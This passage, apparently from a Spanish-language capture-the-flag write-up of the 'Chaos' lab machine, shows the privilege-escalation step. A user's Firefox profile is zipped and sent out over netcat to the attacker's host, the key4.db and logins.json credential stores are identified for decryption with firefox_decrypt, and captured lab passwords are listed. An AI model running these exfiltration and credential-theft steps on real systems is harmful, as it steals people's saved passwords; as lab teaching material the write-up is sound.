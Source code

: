 Comprimimos todo el directorio de `Firefox` en un `.zip`

```
ayush@chaos:~$ zip -r mozilla.zip .mozilla
```

Nos ponemos en `escucha` con `netcat`

```
# nc -nlvp 1234 > mozilla.zip 
```

Nos `enviamos` el `.zip` al equipo.

```
ayush@chaos:~$ nc -w 3 10.10.16.28 1234 < mozilla.zip
```

Obtenemos el `.zip`

```
# nc -nlvp 1234 > mozilla.zip 
listening on [any] 1234 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.139.148] 53756
```

`Listamos` todo el `contenido`. Según este artículo [https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/specific-software-file-type-tricks/browser-artifacts#firefox](https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/specific-software-file-type-tricks/browser-artifacts#firefox), podemos obtener `información sensible` que se almacena en el archivo `key4.db`

```
#pwd
/home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default

# ls
 bookmarkbackups         sessionstore-backups    blocklist-plugins.json   content-prefs.sqlite   kinto.sqlite         pluginreg.dat              SiteSecurityServiceState.txt
 crashes                 storage                 blocklist.xml            cookies.sqlite         logins.json          prefs.js                   storage.sqlite
 datareporting           addons.json             cert9.db                 extensions.ini         mimeTypes.rdf        revocations.txt            times.json
 gmp                     AlternateServices.txt   cert_override.txt        extensions.json        permissions.sqlite   search.json.mozlz4         webappsstore.sqlite
 minidumps               blocklist-addons.json   compatibility.ini        formhistory.sqlite     pkcs11.txt           SecurityPreloadState.txt   xulstore.json
 saved-telemetry-pings   blocklist-gfx.json      containers.json          key4.db                places.sqlite        sessionCheckpoints.json   
```

Nos `descargamos` esta `herramienta` [https://github.com/unode/firefox_decrypt.git](https://github.com/unode/firefox_decrypt.git) y nos creamos un `fichero` con todas las `contraseñas` que tenemos hasta ahora

```
# cat passwords 
jiujitsu
inner[OnCag8
sahay
```
